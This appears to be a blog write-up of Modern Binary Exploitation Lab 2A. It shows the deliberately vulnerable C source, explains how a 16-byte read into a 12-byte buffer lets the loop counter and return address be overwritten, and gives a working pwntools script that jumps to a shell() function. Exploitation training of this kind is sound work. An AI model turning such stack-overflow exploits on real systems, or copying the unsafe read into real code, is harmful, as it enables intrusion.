 ```yaml
---
layout: post
title: Modern Binary Exploitation - Lab 2A
published: True
---
```


For this lab, we are given a program and its corresponding source code:

{% highlight C %}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

/*
 * compiled with:
 * gcc -O0 -fno-stack-protector lab2A.c -o lab2A
 */

void shell()
{
	printf("You got it\n");
	system("/bin/sh");
}

void concatenate_first_chars()
{
	struct {
		char word_buf[12];
		int i;
		char* cat_pointer;
		char cat_buf[10];
	} locals;
	locals.cat_pointer = locals.cat_buf;

	printf("Input 10 words:\n");
	for(locals.i=0; locals.i!=10; locals.i++)
	{
		// Read from stdin
		if(fgets(locals.word_buf, 0x10, stdin) == 0 || locals.word_buf[0] == '\n')
		{
			printf("Failed to read word\n");
			return;
		}
		// Copy first char from word to next location in concatenated buffer
		*locals.cat_pointer = *locals.word_buf;
		locals.cat_pointer++;
	}

	// Even if something goes wrong, there's a null byte here
	//   preventing buffer overflows
	locals.cat_buf[10] = '\0';
	printf("Here are the first characters from the 10 words concatenated:\n\
%s\n", locals.cat_buf);
}

int main(int argc, char** argv)
{
	if(argc != 1)
	{
		printf("usage:\n%s\n", argv[0]);
		return EXIT_FAILURE;
	}

	concatenate_first_chars();

	printf("Not authenticated\n");
	return EXIT_SUCCESS;
}
{% endhighlight %}

The program takes 10 words from stdin and appends the first character of each word to a local buffer called `cat_buf` stored on the stack in the `concatenate_first_chars()` function. 

However, when reading each word, the program takes in `0x10` bytes from stdin which it copies to a `0x0c` buffer, `word_buf`, giving us a trivial buffer overflow vulnerability.

We can exploit this by overwriting the iterator which is also stored on the stack at an adjacent address to the buffer where the user input is written to. If we read 9 words and overwrite the iterator on the 10th iteration, we can set the iterator value to 0 in order to continue copying bytes into the `cat_buf` buffer, past its allocated 10 bytes of space, resulting in another buffer being overflown.

If we repeat this process again, we can eventually overflow `cat_buf` with enough bytes to overwrite the saved return address with the address of the `shell()` function.

The following script achieves this. 

## Solution

{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def fill_buffer(x,iterations):
  for i in range(iterations):
    r.sendline(x)
  
def exploit(r):
  r.recvuntil(":")
  fill_buffer("A",9)
  r.sendline("A"*12+"\x00\x00\x00\x00") 
  fill_buffer("B",7)
  r.sendline("C"*12+"\x00\x00\x00\x00")
  fill_buffer("D",4)
  r.sendline("\xfd")
  r.sendline("\x86")
  r.sendline("\x04")
  r.sendline("\x08")
  r.sendline("\x00")
  
  r.interactive()

if __name__ == "__main__":
  log.info("For remote: %s HOST PORT" % sys.argv[0])
  if len(sys.argv) > 1:
    r = remote(sys.argv[1], int(sys.argv[2]))
    exploit(r)
  else:
    r = process(['/levels/lab02/lab2A'])
    print util.proc.pidof(r)
    pause()
    exploit(r)
{% endhighlight %}

